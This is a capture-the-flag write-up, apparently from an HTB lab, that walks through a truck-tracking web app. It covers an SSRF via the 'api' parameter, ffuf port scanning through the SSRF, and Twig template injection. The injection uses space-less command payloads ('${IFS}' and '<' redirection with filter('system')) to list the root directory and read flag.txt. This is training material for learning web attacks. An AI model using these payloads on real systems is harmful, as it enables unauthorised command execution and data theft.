








There we go… here is another skill assessment. But first i want to share to you guys something, Few days ago I just had a CTF Red team test from Viettel. I have to say that it is really hard. They need you to have wide range of knowledge about diff type of topic. Yeah if you are a hacker that strong at one things you may lack of opportunities to solve those challs. Btw i managed to solve one… that is cool and better than i expected. and Today i keep going with server side attacks module. 

Alright Lets gooooo!

## Checking around and gathering information

Main page



Look at view page source, It how us a really interesting <script>

```jsx
	<script>
		for (var truckID of ["FusionExpress01", "FusionExpress02", "FusionExpress03"]) {
			var xhr = new XMLHttpRequest();
			xhr.open('POST', '/', false);
			xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
			xhr.onreadystatechange = function() {
				if (xhr.readyState === XMLHttpRequest.DONE) {
					var resp = document.getElementById(truckID)
					if (xhr.status === 200) {
						var responseData = xhr.responseText;
						var data = JSON.parse(responseData);

						if (data['error']) {
							resp.innerText = data['error'];
						} else {
							resp.innerText = data['location'];
						}
					} else {
						resp.innerText = "Unable to fetch current truck location!"
					}
				}       
			};
			xhr.send('api=http://truckapi.htb/?id' + encodeURIComponent("=" + truckID));
		}
    </script>
```

This script show us how to request to this with 

- Request method : `POST`
- Header content-type: `Content-Type: application/x-www-form-urlencoded`
- Data : `xhr.send('api=http://truckapi.htb/?id' + encodeURIComponent("=" + truckID));`

Right now i make Curl to that api

```jsx
┌──(kali㉿kali)-[~/Downloads/Wordlist]
└─$ curl http://94.237.61.248:41242/ -X POST -d "api=http://truckapi.htb/?id=FusionExpress01"
{"id": "FusionExpress01", "location": "321 Maple Lane"}                                                                                                                    
┌──(kali㉿kali)-[~/Downloads/Wordlist]
└─$ curl http://94.237.61.248:41242/ -X POST -d "api=http://truckapi.htb/?id=FusionExpress02"
{"id": "FusionExpress02", "location": "456 Oak Avenue"} 
```

Really nice 

How it look like in `burpsuite`



## SSRF

Alright lets try request to 127.0.0.1 



Damn cool, the HTTP response reflects the SSRF response to us and it not blind too

### Scanning port

After that i scan for any other available ports…..

```jsx
┌──(kali㉿kali)-[~/Downloads/Wordlist]
└─$ ffuf -w 1to1000.txt  -u http://94.237.61.248:41242/  -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://truckapi.htb:FUZZ/" -fr "Couldn't connect to server"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.61.248:41242/
 :: Wordlist         : FUZZ: /home/kali/Downloads/Wordlist/1to1000.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : api=http://truckapi.htb:FUZZ/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Couldn't connect to server
________________________________________________

80                      [Status: 200, Size: 38, Words: 6, Lines: 1, Duration: 3764ms]
3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 193ms]
:: Progress: [10000/10000] :: Job [1/1] :: 209 req/sec :: Duration: [0:00:52] :: Errors: 0 ::
                                                                                                
```

Nothing interesting….

### Read /etc/passwd



```jsx
Error (1): Protocol "file" not supported or disabled in libcurl
```

## SSTI

After testing different ways with ssrf i receive nothing so i switch ssti and soon discover that It is can be exploit with SSTI



As you can see here with template

```jsx
?id={{10*'10'}}  => "id": "100"
```

So this is twig



Be notice that at here space cant be used. I think there is a `Space Filtering`



So use can try with some type to bypass this filter

- `Bypassing space filters`
- `Command injection without spaces`
- `Space-less payload`

So here is my payload to retrieve flag.txt

```jsx
api=http://truckapi.htb/?id={{['ls${IFS}/']|filter('system')}}
```

This time im using `${IFS}` (Internal Field Separator) to replace `space`

By default, the value of IFS is:

1. `A **Space**`
2. `A **Tab**`
3. `A **Newline**`


```jsx
api=http://truckapi.htb/?id={{['cat</flag.txt']|filter('system')}}
```

This is a `Space-less payload` . It is known as an **Input Redirection Operator**.



Flag : HTB{3b8e2b940775e0267ce39d7c80488fc8}